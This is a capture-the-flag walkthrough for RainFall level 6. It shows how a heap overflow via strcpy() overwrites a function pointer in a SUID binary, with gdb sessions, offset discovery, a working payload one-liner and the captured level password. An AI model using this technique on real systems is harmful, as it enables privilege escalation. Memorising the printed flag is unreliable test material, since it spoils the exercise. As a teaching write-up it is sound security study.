 # Level 6 Walkthrough

In this level, we exploit a heap-based buffer overflow to hijack a function pointer and gain access to the next level’s password.

## Who am I?

```bash
level6@RainFall:~$ id
uid=2064(level6) gid=2064(level6) groups=2064(level6),100(users)
```

## Where am I?

```bash
level6@RainFall:~$ ll
-rwsr-s---+ 1 level7 users  5274 Mar  6  2016 level6*
```

We are in possession of a SUID binary owned by level7. Our goal is to exploit this binary to read the `.pass` file from level7.

---

## Program Behavior

Let’s first understand how the binary behaves when run under different conditions.

```bash
level6@RainFall:~$ ./level6
Segmentation fault (core dumped)
level6@RainFall:~$ ./level6 hello
Nope
```

A segmentation fault occurs when no argument is provided. With one argument, the program prints `Nope` and exits.

---

## Analysis

We now analyze the binary structure and control flow to find an entry point for exploitation.

We start by listing the functions:

```bash
(gdb) info functions
...
0x08048454  n
0x08048468  m
0x0804847c  main
```

Decompiled logic:

* `main()` allocates two buffers with `malloc()`
* One buffer receives user input via `strcpy()`
* The other buffer holds a function pointer initially set to `m()`
* Finally, the function pointer is called

From the decompiled code:

```c
void main(...) {
  char *dest = malloc(0x40);
  void (**fn)() = malloc(4);
  *fn = m;
  strcpy(dest, argv[1]);
  (*fn)();
}
```

So we control the `strcpy()` destination, and can overflow to overwrite the function pointer `*fn`, which is called afterward.

We also know that the alternate function `n()` executes `system("/bin/cat /home/user/level7/.pass")`, which means it will directly print the password to stdout if we can redirect execution there.

---

## Finding the Overflow Offset

Our next goal is to determine the precise offset needed to overwrite the function pointer.

We use Metasploit’s pattern generator:

```bash
$ msf-pattern_create -l 100
Aa0Aa1Aa2Aa3Aa4Aa5...
```

Run the binary with the pattern:

```bash
(gdb) run Aa0Aa1Aa2...
...
Program received signal SIGSEGV, Segmentation fault.
0x41346341 in ?? ()
```

Check the EIP value:

```bash
(gdb) info registers eip
EIP: 0x41346341
```

Find the exact offset:

```bash
$ msf-pattern_offset -q 0x41346341
[*] Exact match at offset 72
```

---

## Redirecting Execution to `n()`

We know that the `n()` function reveals the password. Let’s redirect execution to it.

Function `n()` prints the password using:

```c
system("/bin/cat /home/user/level7/.pass");
```

So we want to overwrite the function pointer at `malloc(4)` with the address of `n()`.
We locate it in GDB:

```bash
(gdb) p n
$1 = {<text variable, no debug info>} 0x8048454 <n>
```

We build the payload:

```bash
$ python -c "print 'A' * 72 + '\x54\x84\x04\x08'" > /tmp/exploit
```

---

## Triggering the Exploit

Now that we have the payload, let’s test it and gain access to the password.

We first try to run the exploit using redirected input:

```bash
level6@RainFall:~$ python -c 'print "A" * 72 + "\x54\x84\x04\x08"' > /tmp/exploit
level6@RainFall:~$ cat /tmp/exploit | ./level6
Segmentation fault (core dumped)
```

As expected, this fails because the binary crashes if no argument is provided.

**Correct usage:** We must pass the payload as a command-line argument:

```bash
level6@RainFall:~$ ./level6 $(python -c "print 'A' * 72 + '\x54\x84\x04\x08'")
f73dcb7a06f60e3ccc608990b0a046359d42a1a0489ffeefd0d9cb2d7c9cb82d
```

We successfully redirected execution to the function `n()` and obtained the password.

---

## Files in this repository

Here is a summary of the files included in the repository for this level.

* `flag.txt`: file containing the retrieved flag
* `decompiled_level6/`: folder containing the reconstructed C code from Ghidra
* `asm_analysis.md`: GDB analysis of the binary

---

## Conclusion

This final recap explains what vulnerability was exploited and how it led us to success.

This level showcases a classic heap-based overflow where we overwrite a function pointer located in a heap allocation. The use of `strcpy()` without bounds checking lets us go beyond the intended buffer and control execution flow. By carefully analyzing memory layout and offsets, we redirected execution to a desired internal function that gave us access to the next level.

